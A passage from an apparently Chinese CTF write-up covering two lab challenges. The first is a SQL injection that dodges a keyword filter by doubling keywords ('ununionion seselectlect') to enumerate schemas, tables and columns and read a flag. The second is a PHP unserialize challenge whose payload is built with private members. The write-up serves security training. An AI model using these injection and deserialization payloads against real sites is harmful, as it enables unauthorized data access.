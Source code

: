 说明回显位为第二个字段和第三个字段，查询所有库：

```sql
' ununionion seselectlect 1,2,group_concat(schema_name) frfromom infoorrmation_schema.schemata-- 

->'information_schema,mysql,performance_schema,test,ctf,geek'
```

查询CTF库的所有表：

```sql
' ununionion seselectlect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema='ctf'-- 

->Your password is 'Flag'
```

查询FLAG表的字段：

```sql
' ununionion seselectlect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name='Flag'-- 

->Your password is 'flag'
```

只有一个字段flag，读取flag：

```sql
' ununionion seselectlect 1,2,group_concat(flag) frfromom ctf.Flag-- 

->Your password is 'flag{893a0115-fb96-44be-947f-0d1c1ab52346}'
```

字段从flag替换为 `*` 不行。

## [极客大挑战 2019]PHP（1）

网站源码有备份，用dirmap扫出来是"WWW.zip"（记下来了），解压后得到网站的完整源码。有一个反序列化的洞，用GET方式上传一个"select"，getSerialize代码如下：

```php
<?php 

class Name{
    private $username = 'admin';
    private $password = 100;
}
$a=new Name;
echo serialize($a);

?>
```

这里有一个问题，注意到类中的两个变量都是"private"，经过测试，php版本为7.1或5.6时，序列化严格区分private和public，传入的是哪种类型就会得到哪种类型的变量，而本题的环境需要严格区分两种类型，需要传入private类型两个变量参数，很不巧的是private类型序列化后得到的内容是这样的：

```php
O:4:"Name":2:{s:14:"\000Name\000username";s:5:"admin";s:14:"\000Name\000password";i:100;}
```
